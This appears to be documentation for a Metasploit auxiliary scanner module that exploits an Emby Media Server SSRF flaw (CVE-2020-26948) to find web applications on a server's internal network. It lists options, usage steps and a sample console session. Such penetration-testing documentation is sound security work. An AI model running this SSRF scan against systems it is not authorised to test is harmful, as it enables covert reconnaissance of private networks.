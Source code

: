 ## Vulnerable Application
This module has been tested on Emby Media Server versions older than 4.5.

### Description

Generates a GET request to the provided web servers and executes an SSRF against the targeted EMBY server.
Returns the server header, HTML title, and location header. This is useful for rapidly identifying  web applications
on the internal network using the Emby SSRF vulnerability (CVE-2020-26948).

## Verification Steps

  1. Do: `use auxiliary/scanner/emby_scan`
  2. Do: `set rhosts [ips]`
  3. Do: `set emby_server [emby_server_ip]`
  4. Do: `run`

## Options

### PORTS

Select which ports to check for HTTP servers internal to the Emby server. Defaults to 80, 8080, 8081, 8888.

### EMBY_SERVER

IP address of the Emby server to use. Required.

### EMBY_PORT

Emby server access port. Defaults to 8096.
### SHOW_TITLES

If set to `false`, will not show the titles on the console as they are grabbed. Defaults to `true`.
### STORE_NOTES

If set to `false`, will not store the captured information in notes. Use `notes -t http.title` to view. Defaults to `true`.

## Scenarios

### Emby Server (v4.4.3 on Ubuntu) - Scan Internal 192.168.1.0 Network

```
msf6 > use auxiliary/scanner/emby_scan
msf6 auxiliary(scanner/emby_scan) > set emby_server 10.10.200.32
emby_server => 10.10.200.32
msf6 auxiliary(scanner/emby_scan) > set rhosts 10.10.10.43
rhosts => 10.10.10.43
msf6 auxiliary(scanner/emby_scan) > run

[+] 10.10.10.43:80 [C:200] [R:] [S:UPnP/1.0 DLNADOC/1.50] HP Integrated Lights-Out 2
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
